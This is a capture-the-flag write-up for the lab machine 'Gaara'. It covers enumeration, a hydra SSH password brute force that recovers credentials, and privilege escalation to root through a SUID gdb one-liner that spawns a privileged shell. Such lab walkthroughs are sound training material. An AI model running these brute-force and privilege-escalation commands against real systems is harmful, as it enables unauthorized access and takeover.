





# PG Play - Gaara

#### Ip: 192.168.198.142
#### Name: Gaara
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

Nmap:
```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ sudo nmap -p- --min-rate 10000 192.168.198.142 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 15:39 CDT
Nmap scan report for 192.168.198.142
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

The site on port 80 is just an image of an anime character.

Trying directory fuzzing, Feroxbusted didn't find anything:

```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ feroxbuster --url http://192.168.198.142 -q
```

But trying gobuster with a bigger directory list finally found http://192.168.198.142/Cryoserver with a few entries at the bottom of the page:


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.198.142        
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.198.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/09 15:42:06 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 280]
/Cryoserver           (Status: 200) [Size: 327]
Progress: 220560 / 220561 (100.00%)
===============================================================
2024/10/09 16:07:00 Finished
=======================================
```

/Temari
/Kazekage
/iamGaara

Each endpoint is a long text document going over the history of the anime.



We can copy and paste the contents of each endpoint into a .txt file to see if they contain the same amount of words:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc gaara.txt 
   28  2622 15953 gaara.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc kazekage.txt 
   40  2632 16131 kazekage.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc temari.txt  
   40  2632 16131 temari.txt
```

Interesting, it appears that `/iamGaara` is shorter than the other enpoints

### Exploitation / FootHold

Lets try using `cewl` to generate a wordlist for `/iamGaara` and `/Temari`


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ cewl http://192.168.198.142/iamGaara > cewl.txt

┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cewl http://192.168.198.142/Temari > cewl2.txt 
```

The endpoints above also appear to be usernames so I'll ad those to users.txt file

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cat users.txt 
temari
kazekage
iamgaara
gaara
```

After getting no hits against SSH with my cewl wordlists, I turned to trusty rockyou.txt.

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  ssh://192.168.198.142 
```

This finally cracks the credentials `gaara:iloveyou2`


We can now use this credential to login as user gaara:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ ssh gaara@192.168.198.142 
The authenticity of host '192.168.198.142 (192.168.198.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.198.142' (ED25519) to the list of known hosts.
gaara@192.168.198.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
```

We can now access the local.txt flag:



### Privilege Escalation

Loading LinPeas onto the target, we see that `gdb` has the SUID bit set.



Lets head to GTFObins for the command we'll need to exploit this:



We can run it as shown:

```
gaara@Gaara:/tmp$ cd /usr/bin
gaara@Gaara:/usr/bin$ ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
--Type <RET> for more, q to quit, c to continue without paging--
Type "apropos word" to search for commands related to "word".
# whoami
root
```

We can now access the final flag:



Thanks for following along!

-Ryan

-----------------------------------------
